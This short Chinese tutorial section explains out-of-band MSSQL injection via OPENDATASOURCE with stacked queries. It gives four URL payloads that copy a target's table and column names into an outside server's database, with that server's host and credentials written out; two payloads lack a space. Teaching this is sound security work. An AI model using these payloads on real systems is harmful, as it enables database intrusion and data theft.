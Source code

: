 ## 反弹注入

- 反弹注入条件相对苛刻一些，一是需要一台搭建了mssql数据库的vps服务器，二是需要开启堆叠注入。

- 反弹注入需要使用opendatasource函数。
  - OPENDATASOURCE(provider_name,init_string)
  - 使用opendatasource函数将当前数据库查询的结果发送到另一数据库服务器中。

- 基本流程

  - 连接vps的mssql数据库，新建表test，字段数与类型要与要查询的数据相同。

  ```sql
  CREATE TABLE test(name VARCHAR(255))
  ```

  - 获取数据库所有表，使用反弹注入将数据注入到表中，注意这里填写的是数据库对应的参数，最后通过空格隔开要查询的数据。

  ```sql
  # 查询sysobjects表
  ?id=1;insert into opendatasource('sqloledb','server=SQL5095.site4now.net,1433;uid=DB_14DC18D_test_admin;pwd=123456;database=DB_14DC18D_test').DB_14DC18D_test.dbo.test select name from dbo.sysobjects where xtype='U' --+
  
  # 查询information_schema数据库
  ?id=1;insert into opendatasource('sqloledb','server=SQL5095.site4now.net,1433;uid=DB_14DC18D_test_admin;pwd=123456;database=DB_14DC18D_test').DB_14DC18D_test.dbo.test select table_name from information_schema.tables--+ 
  
  # 查询information_schema数据库
  id=1;insert intoopendatasource('sqloledb','server=SQL5095.site4now.net,1433;uid=DB_14DC18D_test_admin;pwd=123456;database=DB_14DC18D_test').DB_14DC18D_test.dbo.test select column_name from information_schema.columns where table_name='admin'--+
  
  # 查询syscolumns表
  id=1;insert intoopendatasource('sqloledb','server=SQL5095.site4now.net,1433;uid=DB_14DC18D_test_admin;pwd=123456;database=DB_14DC18D_test').DB_14DC18D_test.dbo.test select name from dbo.syscolumns where id=1977058079--+
  ```

  




